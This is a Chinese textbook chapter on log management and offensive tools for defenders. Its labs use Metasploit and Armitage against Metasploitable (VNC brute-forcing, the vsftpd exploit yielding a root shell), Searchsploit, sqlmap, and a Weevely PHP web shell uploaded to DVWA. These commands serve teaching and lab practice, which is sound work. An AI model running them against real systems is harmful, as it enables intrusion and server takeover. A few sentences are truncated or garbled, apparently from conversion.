

# 第十五章：*第十五章*：利用渗透测试增强防御性安全

*“公司必须投入时间和资源于防御性安全，以识别新的漏洞，从而预判敌方的动向。正如孙子在《孙子兵法》中所说：‘知己知彼，百战不殆。’”*

*– 达戈贝尔托·埃雷拉，大学院长*

虽然渗透测试通常是**进攻性安全团队**（也称为**红队**）的任务，但事实是，作为防御性安全的专家，你也需要至少掌握渗透测试的基础知识。

事实上，本章的目的是不是让你成为一名渗透测试员。相反，本章的目标是向你展示渗透测试员（以及攻击者）使用的最流行的工具，展示这些攻击是多么简单且危险。

本章从一些必修的理论开始，以便随后进入一些精准的实验室练习，你可以亲手实验这些进攻性安全工具的简单性和强大功能。

本章我们将涵盖的主要内容如下：

+   理解日志的重要性

+   了解敌人的好朋友：Metasploit

+   其他进攻性黑客工具

# 技术要求

一台安装了**Kali Linux**和**Damn Vulnerable Web Application**（**DVWA**）的虚拟机（可能与我们在*第十二章*中安装的相同，*掌握 Web 应用安全*）。

一台安装了虚拟化软件，如**VirtualBox**的机器将用于创建一个包含 Metasploitable 的虚拟机。

# 理解日志的重要性

在谈论日志的重要性之前，让我们花几分钟时间了解日志的一些核心属性，包括它们的起源、类型，甚至一些行业中使用的标准。

## 日志文件

日志的产生最初是为了记录操作系统或应用程序中的事件。它们最初是作为调试和故障排除的工具，但现在它们也被用于许多其他目的，如*审计*、*安全*和*合规性*：


图 15.1 – Windows 系统中的日志视图

大多数日志文件是简单的文本文件，包含常见的属性，如日志类型、时间戳、ID 和用户。大多数操作系统和应用程序会将不同类型的日志进行分类，以便于分析。最常见的分类如下：

+   错误日志

+   系统日志

+   应用日志

+   访问日志

+   事务日志

理论上，这听起来非常简单，对吧？但实际上并非如此，让我们看看为什么。想象一下以下情景。

假设你有一台运行 Windows Server 的服务器，每分钟生成大约 500 条日志，此外，还有一个每分钟生成 400 条日志的数据库，再加上 6 个应用程序，它们合起来每分钟生成另外 300 条日志。这意味着你的服务器平均每分钟生成 1,000 条日志，也就是每天大约 24,000 条日志，或者每个月 720,000 条日志，仅仅是在一台服务器上。现在，如果你将这个数字乘以你组织中服务器的数量，甚至还包括其他设备，如路由器和物联网设备（这些设备也会生成日志），那么这种情况将变得无法管理，这也是为什么你必须应用 **日志管理技术** 的原因。

## 日志管理

作为一名网络安全专家，你必须应用日志管理技术来充分利用日志。事实上，如果日志没有得到妥善管理，它们可能变得无用，甚至成为你基础设施的负担；但如果你妥善管理它们，它们可以成为强大的信息来源。

但别担心，这里有一些你需要记住的要点，帮助你像专家一样管理日志：

+   **日志结构**：日志格式有很多种类型，但日志格式不同只会增加日志管理的复杂性。这就是为什么公司会尝试遵循统一标准，以确保日志结构在各系统之间保持一致。

    最著名的标准之一是 **Syslog**，它早在 1980 年就被创建，并几乎成为 Unix 类系统的标准。

+   **日志收集**：最佳实践是拥有一个集中化的系统来捕获所有日志。这可以通过一个第三方系统实现，该系统从多个系统收集日志，并将所有日志集中在一个地方。在某些情况下，公司可能会希望创建一个服务器，仅用于收集关键业务活动的日志，例如，创建一个服务器来收集关键 Web 应用程序的所有日志。

+   `IIS_log_334455`，`SQL_log_01_02_2021`）。

    根据你基础设施的规模，这项工作可能变得无法手动完成，因此强烈建议使用日志管理解决方案，允许你根据日志的来源添加自定义标签。

+   **日志分析**：日志的真正价值在于我们可以从中收集到的信息，而这些信息只能通过对日志进行深度分析来获取。日志分析将帮助你生成度量指标，发现模式，甚至通过关联系统间的日志来收集威胁情报。

    更先进的系统甚至会结合人工智能引擎，利用机器学习技术，提供更好的洞察力，甚至根据你的日志进行预测。

+   **日志存储与归档**：归档日志有很多原因。其中一个主要原因与合规性和法规相关，这些规定可能要求公司在一定时间内保存日志。即使公司不受监管，创建与日志归档相关的政策也是一种良好的做法，以确定必须保存日志的时长，并根据日志的类型和重要性将时间划分（以节省一些空间）。

好的，现在我们已经回顾了日志和日志管理的基础知识，是时候总结一下日志在你作为网络安全专家角色中的好处和重要性了。

## 日志的重要性

如前所述，回顾一下最相关的主题，突出日志的重要性，以及为什么你必须投入时间和资源进行日志管理：

+   **合规性与审计**：你必须确保日志符合相关法规。实际上，缺失的日志可能会导致公司面临巨额罚款，因此你必须确保日志政策与所有本地和国际法规一致，例如**支付卡行业数据安全标准（PCI-DSS）**、**健康保险流通与责任法案（HIPAA）**、**通用数据保护条例（GDPR）**等。

+   **故障排除**：尽管这项任务可能超出了你的职责范围（并可能由**信息技术（IT）**部门执行），但你在制定日志政策时应考虑这一点，确保其符合 IT 部门进行故障排除活动的需求。此外，你需要确保他们只能访问他们需要的日志，以减少其他日志被篡改或删除的风险。

+   **调查**：日志是检测违法行为的强大工具，包括外部和内部用户。因此，你必须确保关键系统正在生成日志。此外，你需要确保新系统（如**物联网（IoT）**设备）也已启用日志记录，以便跟踪这些设备的活动。

+   **制裁和法律行动**：日志通常作为合法的方式来证明某些活动是由特定用户执行的，因此它们通常作为证据用于采取法律或内部行动。因此，归档和确保日志的完整性是至关重要的任务。

+   **关键指标验证**：日志可以帮助你确认某个**服务级别协议**（**SLA**）或合同要求是否得到遵守。例如，日志可以确认你提供的服务是否出现故障，以及是否违反了基于合同的正常运行时间要求。

+   **支持网络安全工具**：许多网络安全工具，如 SIEM，使用日志作为其主要输入，因此良好的日志管理将增强这些工具的功能。

+   **日志完整性**：正如我们所学到的，日志非常重要，但其有效性依赖于其完整性，因此您必须确保日志保持不被篡改。有多种攻击旨在修改日志文件；实际上，这被称为**日志欺骗**。要了解更多信息，请参考 OWASP 关于日志注入的页面 [`owasp.org/www-community/attacks/Log_Injection`](https://owasp.org/www-community/attacks/Log_Injection)。

到现在为止，我们已经回顾了关于日志和日志管理所需了解的一切。

现在是时候进入本章的核心内容，深入探讨更多技术性话题，学习您需要了解的有关黑客们使用的最强大、最著名的攻击框架之一：*伟大的 Metasploit*。

# 了解敌人的最佳伙伴——Metasploit

首先需要澄清的是，**Metasploit**是一个非常出色的框架，像其他任何工具一样，它可以被用来做正当的事情或坏事。事实上，您的公司很可能会受到至少一次来自该工具的攻击，但好消息是，您可以利用这个框架，通过使用进攻性安全技术，来测试您的基础设施。

等等，这本书不是关于防御性安全的吗？没错，但作为防御性安全的专家，您也需要了解如何利用一些进攻性安全技术来确保您的基础设施安全。

## Metasploit

如果您一直活跃在网络安全领域，那么您至少听说过 Metasploit，但到底什么是 Metasploit 呢？

Metasploit 是一个开源框架，由开源社区与**Rapid7**共同开发。

Metasploit 的一个重要特点是其模块化功能，您可以使用这个框架来启动**漏洞利用**、**有效载荷**、**扫描**等操作。

在漏洞利用方面，Metasploit 拥有超过 2000 个漏洞利用，适用于几乎所有已知的操作系统，包括**高级互动执行环境(AIX)**、**Solaris**、**伯克利标准发行版(BSD)**、**FreeBSD**、**惠普 Unix(HP-UX)**、**Unix**，当然还有**Windows**。

此外，Metasploit 有超过 500 个有效载荷，包括**静态有效载荷**、**动态有效载荷**、**命令行 Shell**和**Meterpreter**。

但这些数字不断增加，因为这是一个开源项目，漏洞和有效载荷正在不断被社区上传，并通常由高级社区成员和 Rapid7 进行审查。

注意

Metasploit 将允许您*在别人之前找到、验证并测试您系统中的漏洞*！这非常重要，因为它将让您看到系统和基础设施的真实安全状态，并根据发现的结果采取行动。

如前所述，Metasploit 是一个非常庞大的项目，在刚开始时可能会非常混乱，所以我们继续通过探索该工具的不同版本来深入了解。

## Metasploit 版本

自 2003 年创立以来，Metasploit 已经发布了多个版本。其中一些版本仍然在使用，而一些版本已经停用（如 Metasploit Community Edition 和 Express）。现在，让我们来看看当前仍在使用的 Metasploit 版本。

### Metasploit Framework 版

这可以称为 *Metasploit 的经典版本*。这是一个免费的命令行版本，预装在 Kali Linux 上。这是迄今为止最受欢迎的 Metasploit 版本，关于它有无数的书籍、视频和教程。欲了解更多关于此版本的信息，可以访问官方网站 [`www.metasploit.com/get-started`](https://www.metasploit.com/get-started)。

### Metasploit Pro

这是 Metasploit 的付费版本，由 Rapid7 提供支持，基本上增加了许多功能，如向导、通过远程 API 的集成、多种自动化工具以及各种渗透工具，包括用于测试 Web 应用程序上 OWASP 十大漏洞的测试平台。

在这里，你可以找到付费版本与免费框架版本的详细对比：[`www.rapid7.com/products/metasploit/download/editions/`](https://www.rapid7.com/products/metasploit/download/editions/)。

### Armitage

**Armitage** 允许你图形化地展示目标，并使用 Metasploit 在后台对其执行多个攻击。这是一个很好的工具，可以帮助人们了解 Metasploit，并发现该工具的优势和强大功能。

Armitage 也是免费的，并且可以轻松地安装在 Kali Linux 上。接下来，我们将向你展示如何操作。

## 安装 Armitage

如前所述，Armitage 是开始使用 Metasploit 的一个很好的方式，所以让我们在 Kali Linux 上安装它。

现在，Kali Linux 默认安装了 Metasploit；然而，你需要进行配置以便首次使用，因此在安装 Armitage 之前，我们需要先配置 Metasploit。

## 第一次配置 Metasploit

Metasploit 使用 **PostgreSQL** 作为数据库，然而 Kali 的最新版本默认会停止此服务，因此第一步是启动 PostgreSQL 并将其设置为开机启动：

```
sudo systemctl enable --now postgresql
```

如下图所示，`postgresql` 现在已经启动并运行：


图 15.2 – 运行 PostgreSQL

现在，让我们使用以下命令创建所需的数据库：

```
sudo msfdb init
```

现在，我强烈建议你检查是否有可用的更新。实际上，在我的情况下，我的安装相当新，我收到了超过 120 MB 的更新。要获取这些更新，只需输入以下命令：

```
sudo apt update
sudo apt install metasploit-framework
```

现在，你可以使用以下命令成功启动 Metasploit：

```
sudo msfconsole
```

如果一切正常，你应该能够看到 Metasploit 的欢迎页面，如下图所示：


图 15.3 – Metasploit 欢迎界面

请注意，这个屏幕提供了一些基本信息，例如可用的漏洞数量、有效载荷、**无操作（NOPs）**等。

## 安装 Armitage（续）

好的，现在 Metasploit 已经启动并运行，我们回到 Armitage 的安装和设置部分。

让我们从停止 Metasploit 服务开始：

```
sudo service metasploit stop
```

通常，我们需要执行 `apt-get` 更新，但由于我们刚刚已经做过了，现在可以直接安装 Armitage：

```
sudo apt-get install armitage
```

完成后，你应该能够通过以下命令启动 Armitage：

```
armitage
```

接下来，你将看到一个提示屏幕。只需保留默认设置并点击 **连接**，如以下图所示：


图 15.4 – 进入 Armitage

恭喜，至此你已经成功启动了**Metasploit**和**Armitage**。

## 探索 Armitage

现在，让我们探索 Armitage 的图形用户界面（GUI），以发现我们可以使用的一些工具。

如下图所示，图形用户界面非常简单直观（这对初学者来说非常棒）：


图 15.5 – Armitage 主屏幕

现在，让我们来看看我们可以使用的主要功能：

+   在控制台输入 `search smb`，如以下图所示：



图 15.6 – Armitage 控制台

但使用 Armitage 的主要目的就是图形用户界面，因此让我们来看看这些选项。

+   **模块**：如*图 15.5*所示，屏幕左侧有一系列文件夹。这些文件夹是**模块**，包含你可以执行的所有漏洞、有效载荷、辅助工具和后期操作。

    如前所述，Metasploit 有几乎所有操作系统的漏洞，你可以在展开**漏洞**部分时看到这个列表，如下图所示：


图 15.7 – 按操作系统列出漏洞的模块视图

+   **攻击**：在这里，你可以找到一系列可以针对目标机器发起的攻击。

+   **主机**：此菜单包含多个扫描选项，用于查找可用的目标。

现在，让我们做一个简单的实验，向你展示攻击者如何轻松地使用 Armitage 对你的系统发起攻击。

## 使用 Armitage 发起攻击

在我们发起攻击之前，我们需要找到一台我们拥有的脆弱机器，这样我们才能安全地运行测试，并且我们可以通过 Metasploitable 很容易地实现这一点！

### Metasploitable

**Metasploitable** 是一款虚拟的 Unix 机器，设计时故意包含漏洞，以便安全专家和爱好者（像你一样）将其作为测试用的“游乐场”。

它非常容易使用；实际上，你只需要下载虚拟机的镜像，将其加载到你最喜欢的虚拟机管理程序（例如 VirtualBox）中，就可以开始使用了。镜像可以从这里下载：[`sourceforge.net/projects/metasploitable`](https://sourceforge.net/projects/metasploitable)。

现在，让我们进行一次扫描，看看能在这个 Metasploitable 机器上找到哪些漏洞。为此，进入 **主机** | **Nmap 扫描** | **强力扫描** | **所有 TCP 端口**。

然后，选择一段 IP 地址范围；在本例中，我使用了 `192.168.1.0/24`。

注意

你可以在屏幕底部的控制台中实时查看扫描结果（位于我们之前提到的 **控制台** 标签旁），以获取更多关于扫描的信息。

作为示例，以下图示展示了对 Windows 7 机器进行扫描的输出。请注意，扫描能够收集到重要数据，例如计算机名称、操作系统和服务包信息：


图 15.8 – Nmap 扫描的输出

现在，回到我们的扫描，你会注意到这个扫描可能需要几分钟（取决于设备的数量），但一旦完成，它将显示一个弹出消息，如下图所示：


图 15.9 – 强力扫描成功完成

现在，你将看到扫描过程中找到的所有系统或设备。在我们的例子中，Metasploitable 机器的 IP 被识别为 `192.168.1.224`，并且如图所示，它添加了一个 Linux 图标，因为这台机器被识别为 Linux 计算机：


图 15.10 – 扫描过程中发现的机器

那么，让我们右键单击，看看对每台机器可以执行哪些攻击。在我们的例子中，我们可以看到扫描能够找到多个可以利用的服务，从而获取系统访问权限，如下图所示：


图 15.11 – 启用的登录服务列表

现在，让我们看看是否可以使用 VNC 登录。为此，我们需要进入屏幕左侧的模块菜单，导航到 `auxiliary/scanner/vnc/vnc_login`，然后双击打开它。接着，点击 **启动**，并等待命令视图下方的输出。

惊喜的是，系统成功地进行了 VNC 密码暴力破解，如下图所示：


图 15.12 – VNC 密码暴力破解

现在，我们可以打开终端，测试是否可以使用该密码登录 VNC。

为了实现这一点，只需打开终端并输入以下命令（在你的情况下，将以下 IP 替换为你的 Metasploitable 机器的 IP）：

```
vncviewer 192.168.1.224:5900
```

然后，输入密码。在此情况下，输入 `password` 然后按 *Enter*。

现在，你将完全访问目标机器，如下图所示：


](img/Figure_15.13_B16290.jpg)

图 15.13 – 通过 VNC 远程访问目标机器

这只是一个快速示例，看看攻击者是如何轻松进入一个没有保护的系统的。所谓没有保护的系统指的是：操作系统已不再支持、未加固的服务器、缺少更新或安全补丁的服务器等等。

然而，你可以使用更多的选项来尝试 Armitage，例如，以下几种：

+   收集系统上运行的数据库服务的信息，包括版本，甚至对其进行暴力破解攻击。

+   收集关于 FTP 版本的信息，包括匿名登录和暴力破解攻击。

+   根据目标系统的操作系统执行多个利用。

+   从多个有效载荷中选择并发送，等等。

现在是时候回到 Metasploit，稍微玩一下这个真实的工具了。

## 执行 Metasploit

在 Metasploit 中，没有像 Armitage 那样的 GUI。这里，你需要通过纯命令来导航并执行模块、攻击和有效载荷。

但是不用担心，让我们一起做一个例子，看看使用 Metasploit 框架攻击服务器有多简单。

对于这个例子，我们将再次使用我们的易受攻击的 Metasploitable 机器，我们的目标是尝试攻击它们的 FTP 服务器。

所以，第一步将是再次运行 Metasploit：

```
sudo msfconsole
```

现在，让我们搜索 `ftp` 来查找可用于攻击 FTP 服务器的模块：

```
search ftp
```

不幸的是，查询显示了超过 170 个结果，因此我们需要找到一种方法来缩小这个列表，找出最适合攻击的模块。

一个选项是确定系统上运行的 FTP 服务器版本，这样我们就可以搜索与该特定版本相关的模块。为了做到这一点，我们可以使用我们的老朋友 Nmap（在 Kali Linux 中已经预装）。

现在，正常的 `nmap` 扫描只会告诉我们服务运行的端口，但如果我们想要查看这些服务的版本信息，就需要使用 `-sV` 参数，如下所示：

```
nmap -sV 192.168.1.224
```

然后，你应该看到类似以下图示的结果：


](img/Figure_15.14_B16290.jpg)

图 15.14 – 使用 Nmap 收集 FTP 服务器的版本信息

现在，让我们回到 Metasploit 并搜索 `vsftpd`：

```
search vsftpd
```

很好，搜索找到了一个针对该 FTP 服务器的漏洞，正如下图所示：


](img/Figure_15.15_B16290.jpg)

图 15.15 – 在 Metasploit 上利用 vsftpd 漏洞

现在，让我们使用 `info` 命令来收集关于这个模块的更多信息：

```
info 0
```

在下图中，我们可以看到许多有用的信息，比如漏洞的名称、平台、发布日期和作者，但对我们来说最重要的是`RHOST`，它尚未设置，以及`RPORT`，它已默认设置为`21`：


](img/Figure_15.16_B16290.jpg)

图 15.16 – 探索 Metasploit 漏洞的更多信息

如*图 15.16*所示，我们可以通过使用长名称或标识符（在本例中为`0`）来调用漏洞

```
use 0
```

现在，让我们将`RHOST`设置为目标机器的 IP 地址：

```
set RHOST 192.168.1.224
```

现在系统应该会回复信息，显示`RHOST`已设置为指定的 IP 地址，但如果你想再确认一下，你也可以使用`show options`命令，如下图所示：


](img/Figure_15.17_B16290.jpg)

图 15.17 – 使用 show options 确认漏洞设置

现在，一切似乎已经准备好，使用以下命令执行漏洞：

```
run
```

如下图所示，我们现在已完全访问了目标机器。事实上，你可以看到我们可以在目标（受害者机器）上执行许多命令，例如`whoami`（这让人惊恐地显示我们是以 root 身份连接的）。另外，我们执行了`ifconfig`来确认我们正在目标机器上发出命令：


](img/Figure_15.18_B16290.jpg)

图 15.18 – 使用 Metasploit 获取完全的远程访问

这些是一些简单的示例，展示了使用 Metasploit 攻击系统是多么容易。但从防御性安全的角度来看，以下是一些要点：

+   修补漏洞以防止攻击的重要性

+   强化系统以防止远程漏洞执行的重要性

+   使用进攻性工具测试你的环境对抗真实威胁的价值

+   攻击的简单性以及发现有关你的系统信息的容易程度，这些信息可以帮助攻击者针对你的基础设施和系统量身定制攻击

虽然 Metasploit 是最著名的进攻性安全框架，但攻击者还有其他工具可以入侵你的系统，所以我们也来看看其他的进攻性安全工具。

# 其他进攻性黑客工具

让我们回顾一下目前最著名的进攻性安全工具，包括免费和付费的工具。

## Searchsploit

我们在前面的章节中提到过[`www.exploit-db.com/`](https://www.exploit-db.com/)，这是一个包含超过 44,000 个漏洞的巨大数据库，用户可以下载。这个网站非常棒，展示了很多有用的信息，界面也非常友好，但在页面上搜索漏洞、下载并执行它可能有些耗时。这里有`exploit-db`，你可以直接在终端中运行它们；是的，就是这么简单！

让我们做一个简单的示例。假设你为你的组织添加了一个 **Joomla** 服务器，你想要测试它是否存在已知漏洞。你可以运行以下命令：

```
searchsploit -t joomla
```

`-t` 选项将只给出包含“Joomla”字样的漏洞利用标题的结果。

现在，假设你的老板要求你在 Joomla 服务器上安装一个 YouTube 插件。那么，让我们看看如何发现与该插件相关的漏洞：

```
searchsploit -t joomla youtube
```

如下图所示，该工具发现了与 YouTube Joomla 插件相关的三个漏洞：


图 15.19 – 使用 Searchsploit 查找漏洞

下一步是运行漏洞利用程序，这非常简单。首先，你需要使用以下命令复制脚本的路径：

```
searchsploit -p 34087
```

然后，如下图所示，你将得到一个包含完整脚本路径的响应。只需复制并粘贴该路径，你就可以运行漏洞利用程序了！


图 15.20 – 获取执行漏洞利用路径的 Searchsploit

如前所述，执行这些漏洞利用程序非常简单，因此这是你需要 *确保在攻击者利用这些漏洞之前进行测试* 的原因之一。

## sqlmap

**sqlmap** 是一个非常强大的渗透测试工具，用于检测和利用数据库服务器上的 SQL 注入漏洞。它有很多酷的功能，包括以下内容：

+   上传和下载文件。

+   转储整个数据库表。

+   跨数据库搜索特定的表或列。

+   枚举用户、密码哈希值、角色、表、列等。

+   密码哈希值的识别并支持使用字典攻击进行破解。

此外，`sqlmap` 完全支持大多数常见的 SQL 服务器，包括 MySQL、PostgreSQL、Microsoft SQL、Microsoft Access 和 SQLite。

`sqlmap` 已经在 Kali Linux 上预装好了，因此如果你想了解更多关于这个工具的信息，可以输入以下命令，了解该工具的基本命令：

```
sqlmap -h
```

有趣的是，请注意 `-g` 选项允许你将 *Google dork* 结果作为目标 URL 进行处理。

## Weevely

**Weevely** 是一个非常有趣的工具，提供了一个 Web Shell 来攻击 Web 应用程序。它有很多有趣的功能，包括以下内容：

+   通过 HTTP 和 HTTPS 代理浏览受感染的 web 应用程序。

+   能够暴力破解目标系统上的 SQL 账户。

+   挂载远程文件系统。

+   直接访问目标系统的 Shell。

+   上传和下载文件。

+   文件导航等。

我相信你一定很想看看如何使用这个工具进行攻击，所以让我们做一个快速实验，向你展示 Weevely 的工作原理。

在这个实验中，我们将使用 DVWA 作为我们 Kali Linux 机器上的目标系统。

提示

在 *第十二章*，*掌握 Web 应用安全* 中，我们介绍了 DVWA 的安装和设置，因此如果你还没有安装它，请返回该章节并按照我们的简单步骤进行安装并运行它。

假设你已经在 Kali Linux 机器上安装了 DVWA，那么接下来我们只需要继续运行它。

第一步是使用以下命令启动数据库服务：

```
sudo service mysql start
```

然后，我们使用以下命令启动 Apache 服务器：

```
sudo service apache2 start
```

现在，让我们打开一个网页浏览器，使用以下地址打开 DVWA：

`127.0.0.1/DWVA/`

现在你应该能看到 DVWA 的登录页面，如下图所示：


](img/Figure_15.21_B16290.jpg)

图 15.21 – DVWA 登录页面

要登录，只需使用你在 DVWA 设置过程中创建的管理员凭证。

现在你已经登录，让我们将安全级别设置为低。为此，只需进入左侧菜单，搜索 **DVWA 安全**，然后将下拉菜单更改为 **低** 并点击 **提交**，如以下图所示：


](img/Figure_15.22_B16290.jpg)

图 15.22 – 在 DVWA 中降低安全级别

此时，我们的目标机器已准备好进行攻击！

为了创建 shell，让我们回到 Kali 并使用以下命令：

```
weevely generate mypassword /home/kali/myshell.php
```

注意，`mypassword` 是我们正在创建的 shell 的密码，其余部分是 shell 的路径和文件名。在这个示例中，我将其保存在我的用户目录下，并命名为 `myshell.php`。

现在，你可以导航到你的用户目录，确认文件是否已创建，如下图所示：


](img/Figure_15.23_B16290.jpg)

图 15.23 – 在 Weevely 上创建的 Shell 的本地副本

现在，让我们返回 DVWA 上传我们的 shell。

要做到这一点，只需进入 `myshell.php`，然后点击 **上传**。

现在，我们需要复制文件在服务器上的位置。为此，只需复制 URL 的第一部分（`http://127.0.0.1/DVWA`）和 *成功上传* 消息中高亮显示的路径（`/hackable/uploads/myshell.php`），如以下图所示：


](img/Figure_15.24_B16290.jpg)

图 15.24 – DVWA 中 Shell 的路径

现在，路径应如下所示：

```
http://127.0.0.1/DVWA/hackable/uploads/myshell.php
```

现在，让我们再次打开 Kali Linux 的控制台，执行以下命令来运行 shell（请注意，这里我们基本上是在添加服务器路径和密码来运行 shell）：

```
weevely http://127.0.0.1/DVWA/hackable/uploads/myshell.php mypassword
```

如下图所示，你已经可以完全访问服务器，包括查看当前用户、文件导航等：


](img/Figure_15.25_B16290.jpg)

图 15.25 – Weevely 攻击结果

当然，还有许多其他用于攻击性安全的工具，我们鼓励你去探索它们，但到目前为止，你应该已经清楚了解了这些工具对攻击你的基础设施（包括服务器、网页应用程序，甚至数据库）所具备的强大威力。

# 总结

希望你和我一样喜欢这一章。在这里，我们学习了日志，了解了它们为何重要，甚至学会了如何成功地管理它们（日志管理）。

然后，我们进入了本章的技术部分，进一步了解了最著名的攻击性安全工具：Metasploit。

然后，为了开始使用 Metasploit，我们进行了一个使用 Armitage 和 Metasploitable 的实践实验。

当我们更加深入地了解 Metasploit 框架时，我们进行了另一个直接使用 Metasploit 的实践实验，成功地完全控制了目标机器。

但是，还有更多内容：我们做了两个实验，一个是使用 Searchsploit，另一个是非常有趣的实验，使用 Weevely，我们甚至使用了在*第十二章*中安装的 DVWA，*掌握 Web 应用安全*。

现在，是时候进入另一个非常有趣且技术性很强的章节，我们将在其中发现一些用于**计算机取证**的工具和技术！

# 进一步阅读

如果你想了解更多关于 Metasploit 以及可用版本的信息，可以访问官方站点：[`www.metasploit.com/`](https://www.metasploit.com/)。

此外，Metasploit 的官方 GitHub 可以在此找到：[`github.com/rapid7/metasploit-framework`](https://github.com/rapid7/metasploit-framework)。
